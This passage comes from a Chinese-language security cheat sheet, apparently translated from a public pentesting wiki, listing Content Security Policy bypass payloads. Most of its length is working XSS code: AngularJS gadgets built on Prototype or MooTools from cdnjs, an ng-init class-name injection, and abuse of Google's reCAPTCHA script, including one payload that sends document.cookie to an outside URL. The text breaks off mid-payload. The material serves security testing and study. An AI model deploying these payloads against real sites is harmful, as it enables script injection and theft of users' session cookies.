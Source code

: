```xml
```
#### 使用 Angular + 一个返回 `window` 对象的函数库的有效载荷 ([查看此帖子](https://blog.huli.tw/2022/09/01/en/angularjs-csp-bypass-cdnjs/))：

{% hint style="info" %}
该帖子显示您可以 **加载** 来自 `cdn.cloudflare.com`（或任何其他允许的 JS 库库）的所有 **库**，执行每个库中添加的所有函数，并检查 **哪些库中的哪些函数返回 `window` 对象**。
{% endhint %}
```markup
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
<div ng-app ng-csp>
{{$on.curry.call().alert(1)}}
{{[].empty.call().alert([].empty.call().document.domain)}}
{{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
{{$on.curry.call().alert('xss')}}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
{{[].erase.call().alert('xss')}}
</div>
```
Angular XSS 从类名：
```html
<div ng-app>
<strong class="ng-init:constructor.constructor('alert(1)')()">aaa</strong>
</div>
```
#### 滥用谷歌 recaptcha JS 代码

根据 [**这篇 CTF 文章**](https://blog-huli-tw.translate.goog/2023/07/28/google-zer0pts-imaginary-ctf-2023-writeup/?_x_tr_sl=es&_x_tr_tl=en&_x_tr_hl=es&_x_tr_pto=wapp#noteninja-3-solves)，您可以在 CSP 内部滥用 [https://www.google.com/recaptcha/](https://www.google.com/recaptcha/) 来执行任意 JS 代码，从而绕过 CSP：
```html
<div
ng-controller="CarouselController as c"
ng-init="c.init()"
>
&#91[c.element.ownerDocument.defaultView.parent.location="http://google.com?"+c.element.ownerDocument.cookie]]
<div carousel><div slides></div></div>

<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>
```
更多 [**来自此文档的有效载荷**](https://joaxcar.com/blog/2024/02/19/csp-bypass-on-portswigger-net-using-google-script-resources/):
```html
<script src='https://www.google.com/recaptcha/about/js/main.min.js'></script>

<!-- Trigger alert -->
<img src=x ng-on-error='$event.target.ownerDocument.defaultView.alert(1)'>

<!-- Reuse nonce -->
<img src=x ng-on-error='
doc=$event.target.ownerDocument;
```